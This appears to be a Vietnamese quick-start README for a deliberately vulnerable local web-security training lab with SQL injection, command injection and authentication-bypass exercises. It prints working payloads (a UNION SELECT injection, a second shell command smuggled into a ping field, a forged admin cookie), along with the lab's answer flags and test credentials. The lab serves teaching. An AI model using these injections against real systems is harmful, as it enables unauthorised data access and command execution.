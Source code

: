 # 🚀 Hướng Dẫn Nhanh

## Khởi động dự án

```bash
npm install
npm start
```

## Truy cập

-   **Trang chủ**: http://localhost:3000
-   **SQL Injection Lab**: http://localhost:3000/lab/sqli
-   **Command Injection Lab**: http://localhost:3000/lab/cmdi
-   **Authentication Bypass Lab**: http://localhost:3000/lab/auth

## Những gì bạn sẽ thấy

### 1. Trang chủ (/)

-   Danh sách các lab bảo mật
-   Click vào "SQL Injection" để bắt đầu

### 2. Trang SQL Injection Lab (/lab/sqli)

**Hiển thị ngay:**

-   ✅ Tất cả 5 title từ bảng posts
-   ✅ Thanh tìm kiếm
-   ✅ Gợi ý khai thác
-   ✅ Hướng dẫn chi tiết

**Danh sách posts mặc định:**

1. ID: 1 - Chào mừng đến với Security Lab
2. ID: 2 - SQL Injection là gì?
3. ID: 3 - Bảo mật web căn bản
4. ID: 4 - OWASP Top 10
5. ID: 5 - Cross-Site Scripting (XSS)

## Thử ngay

### Tìm kiếm bình thường

```
SQL
```

→ Kết quả: 1 bài viết

### Khai thác SQL Injection

```
' UNION SELECT id, flag FROM secret--
```

→ Kết quả: Lấy được FLAG!

## Cấu trúc Database

### 3 bảng có sẵn:

-   **posts** (5 bài viết)
-   **users** (3 users)
-   **secret** (1 flag)

## 🎯 Mục tiêu

### SQL Injection Lab

Tìm flag ẩn: `FLAG{SQL_1nj3ct10n_M4st3r}`

### Command Injection Lab

Tìm flag ẩn: `FLAG{C0mm4nd_1nj3ct10n_M4st3r_2024}`

### Authentication Bypass Lab

Tìm flag ẩn: `FLAG{4uth_Byp4ss_C00k13_H4ck}`

## 🚀 Quick Exploits

### Command Injection

#### Test bình thường:

```
8.8.8.8
```

#### Khai thác để lấy FLAG:

```
8.8.8.8; cat secret.txt
```

### Authentication Bypass

#### Đăng nhập test:

```
user1 / password1
```

#### Bypass để lấy FLAG:

1. Login với user1
2. F12 → Application → Cookies
3. Sửa cookie `auth` thành: `admin:admin123`
4. Refresh trang → Xem comment của admin

## 📖 Tài liệu đầy đủ

-   `README.md` - Tài liệu tổng quan
-   `DEMO.md` - Hướng dẫn SQL Injection chi tiết
-   `CMDI-GUIDE.md` - Hướng dẫn Command Injection chi tiết
-   `AUTH-GUIDE.md` - Hướng dẫn Authentication Bypass chi tiết
-   `CHANGELOG.md` - Lịch sử thay đổi
